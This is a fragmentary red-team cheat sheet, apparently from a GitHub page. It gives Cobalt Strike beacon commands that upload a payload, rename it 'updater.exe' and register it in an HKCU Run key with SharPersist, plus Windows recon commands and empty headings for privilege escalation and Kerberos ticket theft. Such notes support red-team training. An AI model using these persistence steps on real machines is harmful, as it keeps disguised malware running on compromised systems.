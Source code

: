 ### Registry Autorun

#### SharPersist - reg

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" 
-a "/q /n" -k "hkcurun" -v "Updater" -m add
```



## Host Privilege Escalation

### Windows Services



## Windows Command Line tools

### Debugging & Helper commands.

#### View error message

```powershell
[-] could not upload file: 32 - ERROR_SHARING_VIOLATION
C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.
```

### Recon & Enumeration (Windows)

#### List named pipes (SMB)

```powershell
PS C:\> ls \\.\pipe\
```

#### tcp connections

```powershell
PS> netstat -anop tcp
```

```powershell
PS> netstat -anop tcp | findstr 1337
```



## Kerberos Tickets

### Extract TGT's from compromised host
